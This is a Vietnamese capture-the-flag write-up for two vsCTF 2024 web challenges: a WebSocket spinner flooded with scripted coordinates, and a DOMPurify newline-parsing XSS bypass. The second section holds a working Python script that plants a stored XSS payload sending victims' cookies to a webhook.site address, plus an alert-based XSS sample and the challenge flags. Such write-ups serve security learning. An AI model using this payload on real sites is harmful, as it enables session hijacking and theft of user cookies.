 # spinner 

![image](https://github.com/neo-M3tinez/vsctf_2024/assets/174318737/b669a37e-470c-4be0-a297-7a4f139bf787)

goal: bài này là phải quay 9999 vòng th sẽ hiện ra thông báo data.message 

=> sau 1 lần check code thì bài này ta cần phải config giá trị của spinner qua websocket  


=> websocket là một công nghệ cho phép thiết lập kết nối liên tục và hai chiều (full-duplex) giữa một máy khách (client) và một máy chủ (server) qua một giao thức truyền tải duy nhất. Nó cho phép các ứng dụng web gửi và nhận dữ liệu một cách hiệu quả và thời gian thực

![image](https://github.com/neo-M3tinez/vsctf_2024/assets/174318737/91431c16-2c6e-4942-82a4-c16506b9ef2e)

- sau khi checking trên brupsuite ws history thì ta thấy được 1 chuỗi tọa độ được gửi nhiều lần lên server và được trả về trên client 1 giá trị spin : ?


- có 1 số thông tin về tọa độ đó là client X, Y có vẻ cố định và chỉ thay đổi khi mình tạo 1 request khác trong web nhưng X,Y thì thay đổi nên ta có thể tạo ra payload với ý tưởng như thế


payload_original:

```
const WebSocket = require('ws');

const ws = new WebSocket('wss://spinner.vsc/ws');

ws.on('open', () => {
    console.log('WebSocket connected');

    // Hàm để tính toán và gửi dữ liệu chuột
    function sendMouseData() {
        const centerX = window.innerWidth / 2;
        const centerY = window.innerHeight / 2;

        // Gửi dữ liệu chuột mỗi lần gọi hàm này
        document.addEventListener('mousemove', (event) => {
            const { clientX, clientY } = event;

            const message = {
                x: clientX,
                y: clientY,
                centerX: centerX,
                centerY: centerY
            };

            ws.send(JSON.stringify(message));
        });
    }

    // Lắng nghe tin nhắn từ máy chủ
    ws.on('message', (data) => {
        const message = JSON.parse(data);
        console.log('Received message:', message);

        // Kiểm tra nếu số vòng quay đã đạt 9999, in ra flag và đóng kết nối
        if (message.spins >= 9999) {
            console.log('Flag:', message.message);
            ws.close();
        }
    });

    // Gọi hàm gửi dữ liệu chuột
    sendMouseData();
});

ws.on('close', () => {
    console.log('WebSocket connection closed');
});

ws.on('error', (error) => {
    console.error('WebSocket error:', error.message);
});


payload gốc  để hình dung ra quy luật 
```

=> payload trên ta đang gửi nhiều tọa độ lên server sao cho gửi giá trị X, Y thì server trả về 1 giá tri spin tăng dần lên 9999 

payload: node.js => flag

```
const WebSocket = require('ws');

const ws = new WebSocket('wss://spinner.vsc.tf/ws');

ws.on('open', () => {
    console.log('WebSocket connected');

    let intervalId;

    // Function to send mouse data
    function sendMouseData() {
        const centerX = 1536 / 2;
        const centerY = 412 / 2;

        intervalId = setInterval(() => {
            const x = Math.floor(Math.random() * 1536); // Random x coordinate
            const y = Math.floor(Math.random() * 412); // Random y coordinate

            const message = {
                x: x,
                y: y,
                centerX: centerX,
                centerY: centerY
            };

            ws.send(JSON.stringify(message));
        }, 1); // Send data every 1ms
    }

    // Listen for messages from the server
    ws.on('message', (data) => {
        const message = JSON.parse(data);
        console.log('Received message:', message);

        // Check if spins reached 9999, print flag and close connection
        if (message.spins >= 9999) {
            console.log('Flag:', message.message);
            clearInterval(intervalId); // Stop sending data
            ws.close();
        }
    });

    // Call the function to send mouse data
    sendMouseData();
});

ws.on('close', () => {
    console.log('WebSocket connection closed');
});

ws.on('error', (error) => {
    console.error('WebSocket error:', error.message);
});

```

=> thêm đoạn code có thể chạy trên console 

```
function spin(r){
    socket.send(JSON.stringify({centerX: 0,CenterY: 0 ,x: -r , y: -r })
    socket.send(JSON.stringify({centerX: 0,CenterY: 0 ,x: r , y: -r })
    socket.send(JSON.stringify({centerX: 0,CenterY: 0 ,x: r , y: r })
    socket.send(JSON.stringify({centerX: 0,CenterY: 0 ,x: -r , y: r })
}
let i = 0.001;
setInterval(() => {
    for (let z = 0; z < 1000;z++ ) spin(++i);}, 1);

```

![image](https://github.com/neo-M3tinez/vsctf_2024/assets/174318737/c4be48f4-7876-45f2-a414-3729452a1d14)

=>flag: vsctf{i_ran_out_of_flag_ideas_so_have_this_random_string_2CSJzbfeWqVBnwU5q8}

# flarenotes-revenge

![image](https://github.com/neo-M3tinez/vsctf_2024/assets/174318737/8fc717e3-8658-4ab5-bc8d-b19b99601e3f)

- Recon

 => dạng này là xss DOMPurify 

> "The trick was to insert a newline, because the parser of the web app created a new html for every line. Dompurify is safe but because of this parser difference it was possible to insert XSS. For dompurify my payload is ```<IMG class="abc\and{some payload}">``` while website splits the whole thing and inserts <IMG class="abc which the browser converts to ```<img class="abc">``` And the payload which get inserted on its own"


```
import requests as _requests, base64

requests = _requests.Session()
# poison self
req = requests.get("https://flarenotes.vsc.tf/
")
user_id = req.content.split(b"?user=")[1].split(b"\"")[0].decode()
print("user_id", user_id)

req = requests.get("https://flarenotes.vsc.tf/
")
user_id = req.content.split(b"?user=")[1].split(b"\"")[0].decode()
print("user_id", user_id)

second_stage = """var i=new Image(); i.src="https://webhook.site/6268ac05-3100-47b9-bcb7-f29338474397/?cookie="+btoa(document.cookie)
;
"""

payload = f"""<img class="asdf
<img src onerror=eval(atob('{base64.b64encode(second_stage.encode()).decode()}'))>"/>"""
print("payload:", payload)
req = requests.post("https://flarenotes.vsc.tf/add_note
", data={"note": payload})

print(f"https://flarenotes.vsc.tf/view/?user={user_id}", req.content)
```

=> payload xss khi ta cắt thẻ <a herf="abc"<img src = x onerror = alert(document.domain)>"></a>

![image](https://github.com/neo-M3tinez/vsctf_2024/assets/174318737/97fbcdd9-14d3-4ec2-9b54-d96436e71288)

=> flag: vsctf(shouldnt_h4v3_us3d_cr1mefi4r3}
